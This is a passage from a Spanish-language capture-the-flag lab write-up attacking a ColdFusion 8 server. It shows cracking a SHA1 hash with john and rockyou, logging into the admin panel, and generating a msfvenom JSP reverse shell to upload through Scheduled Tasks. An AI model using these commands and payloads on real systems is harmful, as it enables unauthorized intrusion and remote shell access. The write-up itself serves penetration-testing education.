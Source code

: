 Guardo el hash en un archivo y ejecuto john para decifrar la contraseña.

```
intrusionz3r0@kali:~$ john -w=/usr/share/wordlists/rockyou.txt --format=raw-sha1 hash  
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 SSE2 4x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
happyday         (?)
1g 0:00:00:00 DONE (2020-08-27 16:27) 2.380g/s 12180p/s 12180c/s 12180C/s jodie..gabita
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```
Tenemos un contraseña, ahora intentare iniciar sesión en el panel de login.

![](https://lh4.googleusercontent.com/QrTtDqQNIUggHoE_M-_QCTTRIImn7lFHGx0uUFhb5fMhbsBcboSOBZagEWhjIPl5bO11wfjzMGrFKVHSLt23dS3BLBEKZxurUHqqf-IwhGQFOkHz3Wl_QufbmWZGjE3b4gPrvdIT)

# Shell como el usuario tolis.

**¡¡Eureka!!**


Para este punto, nosotros debemos de enumerar la aplicación para ver si existen puntos explotables.

En este caso hay un apartado en la aplicación donde se nos permite subir archivos.

Este se encuentra en: **DEBUGGING & LOGGING** -> **Scheduled Tasks**.

Ahí nosotros podremos subir archivos pero el problema es que nosotros no sabemos que tipo de archivos es capaz de interpretar el `ColdFusion 8` .

Hago una búsqueda en Google y encuentro lo siguiente:

![](https://lh3.googleusercontent.com/amSDBpbAsiwBVtK0iNjy3_4MwGZLwduZU-McOlTfcCxSCiMiZ2_Z3L292hNy_dHPuTO_yegrPRweVIn9Pm4tCMfNe4B1TfLPMphNwXmQyzbD3ozAhhPN9yZ3E_GBgY8iGSAO_tCL)

El lenguaje de programación en el que fue programado la plataforma es `Java` por lo que es muy probable de que acepte archivos `JSP`.

Para explotar la aplicación crearemos un payload con msfvenom.

```console
intrusionz3r0@kali:~$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.20 LPORT=1234 -f raw > shell.jsp
Payload size: 1497 bytes
```
Levantamos un servidor con python que comparta nuestro payload y dejamos nuestro netcat a la escucha de cualquier conexión entrante.

![](https://lh5.googleusercontent.com/JBnpI7H9ObV2d_If2DpyF9T5NLFbq_L3oC_d6DsOvqz66hLJKuJYJltqB5dAPVaG5etX261H884DCJUg0vIVcMdDZptNQOkHWwWYPq4AxlmFkuYzaObskiGrSzrRliSZaXonegA2)

Ahora solo creamos la tarea programable.

![](https://lh4.googleusercontent.com/MRdVA5PIYJRGjVMoy8K5hC02BmVIbrDc2Cb2dgErctc-zwArqwjjnwNVediAicYyvv0EenECiuoe0H1eaPik7PDBKLqqyv_FaJJQx1_kO1hUvf7yXTXMPMWBFmScFkpYVpqUBPkA)

![](https://lh5.googleusercontent.com/1U4dHiqJK71hNIaWBiFtCq3ikaDqdnmhWsuo8TkqauwJ8IDAeyMICnirEC_0HpdXopMiw7JFTEeNSAegLQZbSvlD3cQsEHFqV_yRn2ct7tJkPlslobBpD-AbJr1T-Mu4CWYZ-rQv)
